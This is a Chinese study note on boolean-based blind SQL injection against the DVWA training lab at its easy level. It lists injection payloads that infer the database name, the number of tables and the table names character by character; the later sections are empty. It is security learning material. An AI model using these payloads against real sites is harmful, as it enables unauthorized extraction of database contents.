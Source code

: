 ```yaml
---
{"dg-publish":true,"title":null,"dg-path":"安全/靶场/DVWA-SQL盲注-easy.md","permalink":"/安全/靶场/DVWA-SQL盲注-easy/","dgPassFrontmatter":true}
---
```



界面就一个输入框，要求输入ID
![Pasted image 20240731182251.png](/img/user/picture/Pasted%20image%2020240731182251.png)

当能在数据库中搜索到这个ID时则会返回
`User ID exists in the database.`     ->    ture
 
否则则会返回
`User ID is MISSING from the database.`   ->    false

# 布尔盲注

他的php源码查询语句如下：
```php
`$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";`
```
也就是会将id带入查询，之后如果有查询结果，则会返回第一条语句，如果查询结果为空，则会返回第二条语句
**满足布尔注入条件**



## 获取数据库名


输入  为ture
```sql
1'  and length(database())=4 #
```
则可知数据库名称长度为4

> [!NOTE] 利用函数
> `length(database())`


**接下来来逐个字母破解数据库名称**
> [!NOTE] 利用函数
> `left(database(),1)='p'`
> 或者
> `substr(database(),1,1)='p'`
> 或者
> `ascii(substr(database(),1,1))`
>> [!example] ⼆分法逐字猜解 
>>  `1' and ascii(substr(database(),1,1))>97 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼤于 97（⼩写字母a的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))<122 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 122（⼩写字母z的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))<109 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 109（⼩写字母m的ascii值） 
>>  `1' and ascii(substr(database(),1,1))<103 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 103（⼩写字母g的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))<100 #`，显⽰不存在，说明数据库名的第⼀个字符的ascii值不 ⼩于100（⼩写字母d的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))=100 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值等于100（⼩写字母d的ascii值），所以数据库名的第⼀个字符的ascii值为100，即⼩写字母d。 
>>  重复以上步骤直到得出完整的数据库名dvwa 


输入下面内容时返回为ture
```
1'  and left(database(),1)='d' # 

1'  and left(database(),2)='dv' #

1'  and left(database(),3)='dvw' #

1'  and left(database(),4)='dvwa' #
```
则可知数据库名为`dvwa`


## 猜解表名

首先来猜解表的个数
```js
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 # 
显⽰不存在 


1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 # 
显⽰存在 
```

> [!note] 
> 原理是使用count()这个函数来判断table_name这个表的数量有几个 然后后面有一个where判断来指定是当前数据库 在末尾有一个 =1 ，意思是判断表有1个，正确那么页面返回正常，错误即返回不正常

我们判断出当前数据库名下的表有两个


**猜解表名长度:**

```js
1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9 #
显⽰存在

1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=5 #
显⽰存在
```

> [!note] 
> ```js
> length(
> 	(select table_name from information_schema.tables where table_schema=database() limit 0,1)
> 	)=9
> 
>```
> 注意：
> `length`函数的参数应该是一个字符串
> 	`limit 0,1`：限制结果，只返回第一行。这是一个偏移量为0（即从第0行开始），获取1行的限制条件。因此，子查询返回的是当前数据库中的第一个表名。

说明两个表名长度分别是5和9


下面猜解两个表名
```js
1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='g' # 
显⽰存在


1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),2)='gu' # 
显⽰存在

...


1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),9)='guestbook' # 
显⽰存在
```

第一个表明为guestbook


```js
1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='u' # 
显⽰存在


1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),2)='us' # 
显⽰存在

...

1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),5)='users' # 
显⽰存在
```
第一个表明为users




**下面的内容大同小异，就不再过多赘述**

## 猜解表中的字段名




## 猜解数据


